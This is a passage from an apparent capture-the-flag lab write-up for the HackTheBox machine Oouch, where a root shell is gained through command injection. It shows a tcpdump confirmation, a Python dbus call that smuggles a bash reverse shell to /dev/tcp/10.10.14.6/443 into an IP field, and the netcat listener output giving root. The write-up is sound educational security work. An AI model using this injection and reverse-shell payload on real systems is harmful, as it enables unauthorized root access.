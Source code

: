 
As soon as I sent the first command above, `tcpdump` got a hit:



    root@kali# tcpdump -i tun0 icmp                                       
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    11:24:08.919117 IP 10.10.10.177 > 10.10.14.6: ICMP echo request, id 4646, seq 1, length 64
    11:24:08.919140 IP 10.10.14.6 > 10.10.10.177: ICMP echo reply, id 4646, seq 1, length 64  



It also worked with the command in `$()`. Now I'll try a real payload:



    >>> bus = dbus.SystemBus()                                                      
    >>> block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')        
    >>> block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
    >>> client_ip = '; bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1" #'
    >>> response = block_iface.Block(client_ip)                                     
    >>> bus.close()



On submitting, I get a root shell on Oouch:



    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.177] 51146
    bash: cannot set terminal process group (2419): Inappropriate ioctl for device
    bash: no job control in this shell
    root@oouch:/root# id
    uid=0(root) gid=0(root) groups=0(root)



And I can grab `root.txt`:



    root@oouch:/root# cat root.txt
    b8371f67************************



## Beyond Root

### dbus + iptables

I saw how in the web code it send IPs over dbus. As root, I can see how
they are used. In `/root`, there's `dbus-server`, and it's source,
`dbus-server.c`:



    root@oouch:/root# ls
    credits.txt  dbus-server  dbus-server.c  get_pwnd.log  get_pwnd.py  root.txt


